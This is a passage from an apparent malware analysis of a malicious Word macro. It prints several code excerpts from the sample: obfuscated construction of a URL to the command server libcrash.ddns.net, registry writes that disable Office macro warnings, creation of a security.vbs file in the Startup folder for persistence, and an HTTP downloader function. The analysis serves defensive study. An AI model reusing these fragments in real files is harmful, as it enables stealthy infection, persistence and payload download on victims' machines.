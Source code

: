 _Figure 9 - First 7 lines of macro code - Removal of concatenation_

The serial number and hostname of the victim's computer are some of the first pieces of information the VBA collects. They are converted to hexadecimal and included in the reverse shell HTTP request to identify both the implant and the victim. Figure 10 shows off the configuration of the URI request within the macro and Figure 11 represents an example URI.

```
JzESywut = "h" + "tt" + "p:" + "//l" + "ibcr" + "ash.dd" + "ns.ne" + "t/" & OYTgBXAP & "_" & HFzesifc & "//po" + "sol" + "re" + "boo" + "t.ph" + "p"
```

_Figure 10 - URI request configuration - Macro_

```
JzESywut = hxxp://libcrash.ddns[.]net/ENDPOINT1_96L02G3D//posolreboot.php
```

_Figure 11 - URI request configuration - Example_

By default, Microsoft disables external or untrusted macros by setting key values in the registry at HKCU\Software\Microsoft\Office\(VERSION)\Word\Security\. The first registry modification made by this macro changes the key value of AccessVBOM to 1, effectively bypassing the default setting to enable external or untrusted macros. The second registry modification enables all macros automatically and disables warnings for future macro-enabled objects. Figure 12 represents the macro code for these registry modifications.

```
FEDzCjgi$ = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & Application.Version & _"\Word\Security\"
CreateObject("WScript.Shell").RegWrite FEDzCjgi$ & "AccessVBOM", 1, "REG_DWORD"
CreateObject("WScript.Shell").RegWrite FEDzCjgi$ & "VBAWarnings", 1, "REG_DWORD"
```

_Figure 12 - Registry modifications found in macro_

The remaining lines of code end up writing a VBScript file and placing it in the user’s startup directory. Figure 13 contains an excerpt of the beginning lines of macro code where the VBScript (security.vbs) is written to disk and placed in the startup folder.

```
Dim LISPVdZd As Object
Set LISPVdZd = GGZucIZE.CreateTextFile(FESHWDaD + "\Mi" + "croso" + "ft\Wi" + "ndow" + "s\St" + "art Men" + "u\Pro" + "grams\Sta" + "rtup\secur" + "ity.v" + "b" + "s", True, True)
```

_Figure 13 - Macro code writing VBScript file (security.vbs)_

Upon rebooting or successfully authenticating to an infected system, the persistent VBScript file is automatically executed and a standard HTTP GET is made with the previously observed URI (Figure 14). If the request is successful, the response body gets stored into another variable. This functionality appears to serve as a downloader that has specific subroutine instructions for reassembling a binary on disk. Figure 14 contains an excerpt of the function used to construct the HTTP GET request.

```
Function TOGeMFBD(iWotBBKf)
On Error Resume Next
Set EXJJrRlN = CreateObject("MSXML2.XMLHTTP")
With EXJJrRlN
.Open "GET", iWotBBKf, False
.send
End With
If EXJJrRlN.Status = 200 Then
TOGeMFBD = EXJJrRlN.ResponseBody
End If
End Function
```
